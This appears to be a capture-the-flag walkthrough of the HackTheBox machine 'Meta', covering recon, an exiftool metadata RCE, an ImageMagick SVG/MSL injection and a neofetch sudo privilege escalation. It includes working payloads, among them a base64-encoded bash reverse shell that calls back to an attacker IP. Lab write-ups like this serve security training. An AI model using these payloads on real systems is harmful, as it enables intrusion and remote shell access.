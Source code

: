# Meta

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.204.20
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 14:51 EDT
Nmap scan report for 10.129.204.20
Host is up (0.0076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `artcorp.htb` to our `/etc/hosts` file to view port 80.

### ArtCorp --> Subdomain Fuzzing

The webpage was a start-up website:

<figure><img src="../../../.gitbook/assets/image (8) (8).png" alt=""><figcaption></figcaption></figure>

They had a team with some names I might need to use, along with a hint that this was a PHP based website.

<figure><img src="../../../.gitbook/assets/image (5) (12).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website, so we can try `gobuster` scanning for directories and `wfuzz` scanning for sub-domains. A `gobuster` scan reveals nothing, but the `wfuzz` scan did reveal one sub-domain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.artcorp.htb' --hw=0 -u http://artcorp.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000004177:   200        9 L      24 W       247 Ch      "dev01"
```

Here's the webpage:

<figure><img src="../../../.gitbook/assets/image (12) (11).png" alt=""><figcaption></figcaption></figure>

### Metadata RCE

The application allows us to upload images to the machine.

<figure><img src="../../../.gitbook/assets/image (6) (11).png" alt=""><figcaption></figcaption></figure>

Wneh an image is uploaded, the metadata of the image is printed on screen below:

<figure><img src="../../../.gitbook/assets/image (13) (8) (1).png" alt=""><figcaption></figcaption></figure>

This was the output of `exiftool`, which has some RCE attacks possible through metadata.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

By following the PoC, I was able to confirm that we had RCE on the machine:

```bash
exiftool -config eval.config runme.jpg -eval='system("ls -la")' 
# upload runme.jpg
```

<figure><img src="../../../.gitbook/assets/image (10) (8).png" alt=""><figcaption></figcaption></figure>

For some reason, the above PoC doesn't let me execute reverse shells. So I changed the script used to this:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

After changing the `exploit.py` file to have the correct port and IP address, I got a reverse shell.

<figure><img src="../../../.gitbook/assets/image (9) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot grab the user flag yet.&#x20;

### Morgify

There wasn't much on the machine that `www-data` could access. So I downloaded `pspy64` onto the machone to view processes executed by `root` and the user `thomas`.

There was a script run by the user:

```
2023/05/07 09:37:01 CMD: UID=1000 PID=1335   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=1000 PID=1336   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=1000 PID=1338   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=0    PID=1337   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=0    PID=1339   | /bin/sh -c rm /tmp/* 
2023/05/07 09:37:01 CMD: UID=1000 PID=1340   | pkill mogrify
```

Here's the script:

{% code overflow="wrap" %}
```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
{% endcode %}

`mogrify` was used, and it is an image editor that is part of ImageMagick. We can first find the version of ImageMagick used here:

```
www-data@meta:/tmp$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Interesting. There are some RCE exploits pertaining to this:

{% embed url="https://www.cybersecurity-help.cz/vdb/SB2020121303" %}

{% embed url="https://github.com/coco0x0a/CVE-2020-29599" %}

How the exploit works is thorugh embedding XML code within an SVG file. Here's the SVG file I used:

```markup
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

This uses a base64 encoded `bash` one-liner reverse shell. After waiting for a little bit, we should get a shell as `thomas`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (10).png" alt=""><figcaption></figcaption></figure>

### Neofetch

When we check `sudo` privileges, we see the following:

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

GTFOBins does have a command for this binary, but it doesn't work:

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

Then, I noticed the `XDG_CONFIG_HOME` environment variable. The exploit above relies on changing the configuration files for `neofetch`. In this case, since we cannot specify any flags, we can just create a malicious configuration file that would give us a root shell.

<figure><img src="../../../.gitbook/assets/image (14) (10).png" alt=""><figcaption></figcaption></figure>
